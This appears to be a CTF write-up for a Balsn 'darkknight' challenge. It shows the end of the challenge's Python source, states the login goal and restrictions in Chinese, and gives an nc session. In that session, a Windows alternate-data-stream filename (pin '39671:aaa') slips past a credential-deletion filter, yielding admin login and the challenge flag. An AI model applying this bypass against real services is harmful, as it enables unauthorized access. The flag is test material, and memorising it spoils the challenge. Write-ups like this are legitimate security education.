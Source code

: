 ``` python3
            print("3. exit")
            x = input("what do you want to do? > ")
            if x == "1":
                password_manager()
            elif x == "2":
                login()
            elif x == "3":
                print("bye-bye~")
                break
            else:
                print(f"invalid input: {x}")
    except KeyboardInterrupt:
        print("bye-bye~")
    except:
        print("unexpected error occured.")

    os.chdir("../")
    shutil.rmtree(base_dir)

if __name__ == "__main__":
    main()
```

### 目標
使用login選項成功登入admin

### 限制
* 用 normal_login 會直接被檔
* login 前，所有在 passord manager 所建立的 fast_login 檔若包含'admin'會被刪
* 做 passord manager 時 pin(filename) 不可包含['\\', '/', '..', '*'] 字串

### payload
因為 server 是 windows os ，所以可以用alternate_stream_name繞過 如：C:\user\docs\somefile.ext:alternate_stream_name

``` bash
root@jimmyGW:~# nc darkknight.balsnctf.com 8084
1. passord manager
2. login
3. exit
what do you want to do? > 1
use a short pin code to achieve fast login!!
enter a pin code > 39671:aaa
enter username > admin
enter password > aaaa
saved!!
1. passord manager
2. login
3. exit
what do you want to do? > 2
safety guard activated. will delete all unsafe credentials hahaha...
finished. delete 0 unsafe credentials: []
1. fast login
2. normal login
3. exit
enter login type > 1
enter a pin code > 39671:aaa
hello, admin.
do you want the flag? (y/n): y
beg me: plz
ok, here is your flag: BALSN{however_Admin_passed_the_Dark_knight_with_hiding_behind_Someone}
1. passord manager
2. login
```